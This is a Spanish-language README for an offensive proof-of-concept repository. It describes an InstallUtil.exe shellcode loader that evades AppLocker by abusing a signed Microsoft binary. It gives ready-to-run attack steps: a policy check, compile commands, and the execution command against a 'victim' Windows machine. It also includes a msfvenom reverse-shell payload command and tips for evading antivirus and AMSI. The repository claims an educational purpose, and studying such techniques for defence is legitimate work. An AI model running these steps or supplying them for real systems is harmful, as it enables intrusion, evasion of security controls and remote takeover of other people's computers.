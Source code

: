 
---

### ✅ `bypass`


# 🚀 InstallUtil Shellcode Loader (.NET LOLBAS)

Este proyecto es una prueba de concepto que demuestra cómo abusar del binario legítimo `InstallUtil.exe` para ejecutar código arbitrario en memoria (shellcode), incluso en entornos restringidos con AppLocker habilitado. Utiliza técnicas **LOLBAS (Living Off the Land Binaries and Scripts)** para evadir controles de seguridad.

---

## 📌 ¿Qué es InstallUtil?

`InstallUtil.exe` es una herramienta legítima de Microsoft que se usa para registrar y desinstalar servicios. Se encuentra en:

- **32-bit:** `C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe`
- **64-bit:** `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe`

Debido a que está firmada por Microsoft y ubicada en `C:\Windows`, AppLocker suele permitirla bajo sus reglas predeterminadas.

---

## ⚙️ Funcionamiento

Este proyecto define una clase `Installer` personalizada que sobrescribe el método `Uninstall()`. Al ejecutar `InstallUtil.exe /u`, se invoca ese método y se carga un payload (`micr0_shell`) en memoria utilizando llamadas directas a la API de Windows:

- `VirtualAlloc` – reserva memoria RWX
- `Marshal.Copy` – copia el shellcode en esa memoria
- `CreateThread` – ejecuta el shellcode
- `WaitForSingleObject` – espera a que termine

---

## ✅ Validar que AppLocker lo permite

Antes de ejecutar el ataque, asegúrate de que `InstallUtil.exe` está **permitido** por la política efectiva de AppLocker:

```powershell
Get-AppLockerPolicy -Effective | Test-AppLockerPolicy -Path "C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe"
```

Si ves:

```
PolicyDecision     MatchingRule
--------------     -------------
Allowed            All files located in the Windows folder
```

✅ ¡Puedes proceder! AppLocker permite el binario y tu bypass funcionará.

---

## 💻 Requisitos

- Sistema de destino: **Windows x64**
- Shellcode compatible con **x64**
- Acceso para ejecutar `InstallUtil.exe` (requiere permisos elevados)
- Mono (para compilar desde Linux)

---

## 🛠️ Compilación (en Linux con Mono)

```bash
sudo apt install mono-complete
mcs -target:library -platform:x64 -r:System.Configuration.Install.dll -out:NotMalware_IU.dll NotMalware_IU.cs
```

---

## 🚀 Ejecución (en Windows víctima)

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Path\NotMalware_IU.dll
```

> El método `Uninstall()` será invocado automáticamente y ejecutará el shellcode en memoria.

---

## 🧨 Generar shellcode

Puedes usar `msfvenom` para generar shellcode crudo en formato C# (byte array):

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<TU_IP> LPORT=<PUERTO> -f csharp EXITFUNC=thread
```

Pega el contenido directamente dentro del `byte[] shellcode` en el archivo `.cs`.

---

## 🔐 Evasión adicional (opcional)

Para evitar detección por AV:

- Cifra el shellcode con XOR o AES
- Realiza la decodificación en tiempo de ejecución
- Cambia nombres de clases y métodos
- Aplica AMSI Bypass antes de la carga del shellcode

---

## 🧪 Estructura del repositorio

```
.
├── NotMalware_IU.cs         # Código fuente del loader
├── NotMalware_IU.dll        # Binario compilado (InstallUtil)
└── README.md                # Este archivo
```

---

## ⚠️ Disclaimer

Este código es **únicamente para fines educativos y de investigación**. El uso no autorizado de estas técnicas puede violar leyes locales o internacionales. El autor no se hace responsable del mal uso de esta herramienta. **Úsalo solo en entornos controlados y con permiso explícito.**

---

## 🔗 Referencias

- [LOLBAS Project](https://lolbas-project.github.io/)
- [Microsoft Docs - InstallUtil.exe](https://learn.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool)
- [HTB Academy – Windows Evasion Techniques](https://academy.hackthebox.com/module/254/section/2833/)
```

